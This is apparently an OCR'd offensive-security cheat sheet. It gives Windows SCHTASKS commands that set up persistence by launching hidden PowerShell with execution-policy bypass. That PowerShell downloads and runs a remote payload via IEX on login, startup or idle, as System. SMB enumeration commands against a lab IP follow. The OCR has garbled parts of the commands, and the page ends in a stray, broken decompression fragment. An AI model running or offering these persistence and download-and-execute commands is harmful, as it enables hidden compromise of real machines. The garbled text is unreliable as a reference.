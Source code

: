 ### Always schedule task \[10\]

```text
For 64 bit use:
"C:\Windows\syswow64\WindowsPowerShell\vl.O\powershell.exe"
# (x86) on User Login
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nap -c 'IEX ((new-object
net.webclient) .downloadstring( ''http:// ip : port I payload'''))'' /SC
onlogon /RU System
# (x86) on System Start
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nap -c 'IEX ((new-object
net.webclient) .downloadstring("http:// ip : port I payload"))'" /SC
onstart /RU System
# (x86) on User Idle (30 Minutes)
SCHTASKS /CREATE /TN Task Name /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bjpass -nop -c 'IEX ((new-object
net.webclient) .downloadstring("http:// ip : port I payload"))'" /SC
onidle /i 30
```

## Instructions for working with smb

### Log in with a specific user

```text
smbclient -L 10.10.10.10 -U tlevel
```

### Login without password

```text
smbclient -N -L 10.10.10.10
```

### Change password

```text
smbpasswd -r 10.10.10.10 -U tlevel
```

### Show shared route

```text
smbclient -L 10.10.10.10
```

### Show the specified route


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"